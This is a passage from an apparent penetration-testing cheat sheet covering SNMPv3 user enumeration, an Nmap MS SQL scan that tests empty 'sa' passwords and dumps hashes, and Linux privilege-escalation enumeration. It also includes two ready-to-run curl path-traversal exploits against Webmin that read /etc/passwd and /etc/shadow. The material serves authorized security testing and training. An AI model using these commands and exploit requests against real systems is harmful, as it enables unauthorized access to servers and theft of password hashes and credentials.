 - Automate the username enumeration process for SNMPv3:  
      `apt-get install snmp snmp-mibs-downloader`
      `wget https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb`

- SNMP Default Credentials  
      /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt

### MS SQL Server Enumeration ( xp_cmdshell to execute commands )

- Nmap Information Gathering

      `nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes  --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip`

- Webmin and miniserv/0.01 Enumeration - Port 10000

    Test for LFI & file disclosure vulnerability by grabbing /etc/passwd

      `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd`

    Test to see if webmin is running as root by grabbing /etc/shadow

      `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/shadow`

### Linux OS Enumeration ( LinEnum.sh, linuxprivchecker.py, linux exploit suggester )

- List all SUID files  
      `find / -perm -4000 2>/dev/null`

- Determine the current version of Linux  
      `cat /etc/issue`

- Determine more information about the environment  
      `uname -a`

- List processes running  
      `ps -xaf`

- List the allowed (and forbidden) commands for the invoking use  
      `sudo -l`

- List iptables rules  
      `iptables --table nat --list  
      iptables -vL -t filter  
      iptables -vL -t nat  
      iptables -vL -t mangle  
      iptables -vL -t raw  
      iptables -vL -t security`

### Windows OS Enumeration
